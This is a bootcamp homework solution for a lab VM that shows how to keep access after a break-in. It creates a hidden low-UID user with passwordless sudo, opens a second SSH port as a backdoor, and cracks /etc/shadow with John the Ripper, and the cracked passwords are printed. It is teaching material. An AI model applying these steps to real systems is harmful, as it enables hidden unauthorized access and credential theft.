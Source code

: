 ## Week 6 Homework Solution: Advanced Bash - Owning the System

### Lab Setup

1. Log into the VM as `root` on the attacker machine:

    - Within the attacker machine, log in with the credentials:

        - Username: `sysadmin`
        - Password: `cybersecurity`

2. Using the attacker machine, remote into the target machine:

    - `ssh sysadmin@192.168.6.105 -p 22` and enter `passw0rd` when prompted.

3. After logging in as `sysadmin` on the target machine, run `sudo -s` to escalate your user to `root`. Enter `passw0rd` when prompted.

You will not need the above steps as part of your submission file.

---
### Step 1: Shadow People
1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd sysd`

2. Give your secret user a password:
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 400 sysd`
 
4. Give your secret user the same GID:
    - `groupmod -g 400 sysd`

5. Give your secret user full `sudo` access without the need for a password:
    - `visudo`

    - Add the line: `sysd ALL=(ALL:ALL) NOPASSWD:ALL` under the `root` entry:

    ```bash
    # User privilege specification
    root    ALL=(ALL:ALL) ALL
    sysd    ALL=(ALL:ALL) NOPASSWD:ALL
    # Members of the admin group may gain root privileges
    %admin ALL=(ALL) ALL
    ```

- Swap to your `sysd` user and enter the password you set.

    - `su sysd`

6. Test that `sudo` access works without your password:

    - `sudo -l` will show the following output:

    ```bash
    Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysd may run the following commands on scavenger-hunt:
        (ALL : ALL) NOPASSWD: ALL
    ```

### Step 2: Smooth Sailing

1. Edit the `sshd_config` file:

    - Run `sudo nano /etc/ssh/sshd_config` and add the following line in the configuration file:

    ```bash
    # Add an extra port line:
    Port 22
    Port 2222
    ``` 

### Step 3: Testing Your Configuration Update
1. Restart the SSH service:
    - `service ssh restart` or
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

### Step 4: Crack All the Passwords

1. SSH back to the system using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`

    - `john /etc/shadow`

 Wait approximately 5-10 minutes for John to crack all the passwords.

 - This partly depends on what password you set for your `sysd` user.

    ```bash
    # john /etc/shadow
    Created directory: /root/.john
    Loaded 7 password hashes with 7 different salts (crypt, generic crypt(3) [?/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    computer         (stallman)
    freedom          (babbage)
    trustno1         (mitnick)
    dragon           (lovelace)
    lakers           (turing)
    passw0rd         (sysadmin)
    Goodluck!        (student)
    ```
--- 
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
